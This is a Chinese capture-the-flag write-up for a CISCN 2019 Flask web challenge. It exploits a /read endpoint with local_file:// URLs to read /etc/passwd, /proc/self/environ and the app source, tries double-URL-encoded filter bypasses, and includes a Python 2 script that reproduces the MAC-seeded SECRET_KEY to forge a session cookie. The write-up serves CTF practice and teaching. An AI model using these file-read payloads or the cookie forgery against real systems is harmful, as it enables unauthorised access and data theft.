


## 基本信息

* 题目名称： [CISCN 2019华东南]Web4
* 题目链接： https://www.nssctf.cn/problem/6
* 考点清单： Cookie伪造，随机数预测，Flask，代码审计
* 工具清单： python2 环境
* payloads： 伪协议读取源码，伪随机数生成

## 一、看到什么

**题目关键信息列表**：

1. `简单文字和跳转链接`: 点击`Read somethings`可以跳转到百度页面；
2. `HTTP 响应`: 
   - `Server: Werkzeug/0.15.5 Python/2.7.16`
   - `Set-Cookie: session=eyJ1c2VybmFtZSI6eyIgYiI6ImQzZDNMV1JoZEdFPSJ9fQ.Z43Fcg.EOpviRtmep0wOvhzQYCWy-rJ7oA; HttpOnly; Path=/`
3. `页面源代码`: 审计无果，没有任何提示线索信息。


## 二、想到什么解题思路

1. `伪协议`: 跳转链接`/read?url=https://baidu.com`带有url参数指向baidu域名，考虑伪协议读取系统敏感文件；

1. `Cookie伪造`: 服务器响应说明服务器使用Flask框架，以及使用的python版本，但如此简单页面却设置了Cookie，应该在这上面有作用；

1. `无提示线索`: robots.txt, 敏感文件爆破。


## 三、尝试过程和结果记录

1. 尝试伪协议读取系统文件：

   尝试`?url=file:///etc/passwd`，页面提示`No Hack`，说明可能被过滤。

   搜索常用文件相关伪协议：

   ```
   file://
   local_file://
   dict://
   gopher://
   ```

   这里使用`?url=local_file:///etc/passwd`发现成功返回文件内容，获得任意读取文件漏洞，但尝试读取/flag发现返回`No Hack`，说明`flag`可能被过滤。

2. 绕过过滤，尝试双重URL编码：

   ```
   /flag
   %2f%66%6c%61%67
   %25%32%66%25%36%36%25%36%63%25%36%31%25%36%37
   ```

   访问`/read?url=local_file://%252f%2566%256c%2561%2567`响应`no response`，说明 flag 可能不在常规位置。

3. 读取敏感文件，收集信息：

   ```bash
   /proc/self/loginuid
   # 4294967295
   /etc/passwd
   /proc/self/environ
   # LANG=C.UTF-8SHELL=/bin/ashSHLVL=1WERKZEUG_RUN_MAIN=trueCHARSET=UTF-8
   # PWD=/app
   # WERKZEUG_SERVER_FD=3
   # LOGNAME=glzjin
   # USER=glzjin
   # HOME=/app
   /proc/self/cmdline
   # /usr/local/bin/python /app/app.py
   ```

   尝试读取`/app/app.py`，获得源码，格式化后如下：

   ```python
   # encoding:utf-8 
   import re, random, uuid, urllib from flask 
   import Flask, session, request 
   
   app = Flask(__name__) 
   random.seed(uuid.getnode()) 
   app.config['SECRET_KEY'] = str(random.random()*233) 
   app.debug = True 
   
   @app.route('/') 
   def index(): 
       session['username'] = 'www-data' 
       return 'Hello World! Read somethings' 
   
   @app.route('/read') 
   def read(): 
       try: 
           url = request.args.get('url') 
           m = re.findall('^file.*', url, re.IGNORECASE) 
           n = re.findall('flag', url, re.IGNORECASE) 
           if m or n: 
               return 'No Hack' 
           res = urllib.urlopen(url) 
           return res.read() 
       except Exception as ex: 
           print str(ex) 
           return 'no response' 
       
   @app.route('/flag') 
   def flag(): 
       if session and session['username'] == 'fuck': 
           return open('/flag.txt').read() 
       else: 
           return 'Access denied' 
   
   if __name__=='__main__': 
       app.run( debug=True, host="0.0.0.0" )
   ```

4. 源码审计：

   - `/flag`路由显示了flag的路径，但是无法直接读取，因为需要`fuck`用户的Cookie；
   - `/read`和之前猜测一样，过滤了`以 "file" 开头的任何字符串`，`flag`等关键词；
   - 代码开头给出了`SECRET_KEY`的生成代码，通过`ramdon`伪随机生成，关键种子在于`uuid.getnode()`；
     - 搜索资料可知`uuid.getnode()`方法会返回一个 48 位的整数，通常是网络接口的 MAC 地址。
   - 所以总的来说我们需要通过伪造`fuck`用户的Cookie来访问`/flag`路由获得最终 flag。

5. Cookie 伪造：

   1. 根据规则，访问`/read?url=local_file:///sys/class/net/eth0/address`，获得 MAC 地址：`02:42:ac:02:c5:27`；

   2. 然后自己搭一个类似Flask应用，用于生成Cookie（注意到代码`print str(ex)`，这是python2风格的`print`，所以这里也采用python2复现 ）：

      ```python
      # encoding:utf-8 
      import random
      from flask import Flask, session
      
      app = Flask(__name__) 
      mac=0x0242ac02c527
      random.seed(mac)
      app.config['SECRET_KEY'] = str(random.random()*233) 
      app.debug = True 
      
      @app.route('/') 
      def index(): 
          session['username'] = 'fuck' 
          return 'Hello World! Read somethings' 
      
      if __name__=='__main__': 
          app.run( debug=True, host="0.0.0.0" )
      ```

   3. 访问本地5000端口获得cookie：

      

      然后替换伪造的Cookie访问`/flag`：

      


## 四、总结与反思

1. 注意拿到任意文件读取漏洞后，掌握常用的敏感文件路径，快速获取系统信息；

1. URI的各种伪协议需要熟悉，在遇到SSRF漏洞时可以逐一尝试。
